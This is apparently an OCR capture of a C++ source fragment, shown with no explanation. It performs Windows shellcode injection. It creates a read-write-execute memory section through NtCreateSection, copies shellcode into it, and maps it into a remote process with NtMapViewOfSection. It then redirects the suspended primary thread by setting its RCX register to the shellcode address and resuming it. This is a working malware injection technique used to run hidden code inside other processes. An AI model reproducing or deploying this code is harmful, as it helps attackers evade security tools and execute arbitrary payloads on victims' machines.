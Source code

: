 ```
    NtMapViewOfSection ntMapViewOfSection = (NtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
    NtUnmapViewOfSection ntUnmapViewOfSection = (NtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");

    // create section in local process
	HANDLE localSection;
	LARGE_INTEGER localszSection = { shellcode.size() };
	
	NTSTATUS status = ntCreateSection(
		&localSection,
		SECTION_ALL_ACCESS,
		NULL,
		&localszSection,
		PAGE_EXECUTE_READWRITE,
		SEC_COMMIT,
		NULL);
	
	// map section into memory of local process
	PVOID hLocalAddress = NULL;
	SIZE_T viewSize = 0;
	
	status = ntMapViewOfSection(
		localSection,
		GetCurrentProcess(),
		&hLocalAddress,
		NULL,
		NULL,
		NULL,
		&viewSize,
		ViewShare,
		NULL,
		PAGE_EXECUTE_READWRITE);
	
	// copy shellcode into local memory
	RtlCopyMemory(hLocalAddress, &shellcode[0], shellcode.size());
	
	// map section into memory of remote process
	PVOID hRemoteAddress = NULL;
	
	status = ntMapViewOfSection(
		localSection,
		ntHandle,
		&hRemoteAddress,
		NULL,
		NULL,
		NULL,
		&viewSize,
		ViewShare,
		NULL,
		PAGE_EXECUTE_READWRITE);

	// Get thread context of primary thread
    LPCONTEXT pContext = new CONTEXT();
    pContext->ContextFlags = CONTEXT_INTEGER;
    GetThreadContext(process_info->hThread, pContext);

	// Update RCX register to above
    pContext->Rcx = (DWORD64)hRemoteAddress;
    SetThreadContext(process_info->hThread, pContext);

    // Resume thread
    ResumeThread(process_info->hThread);
```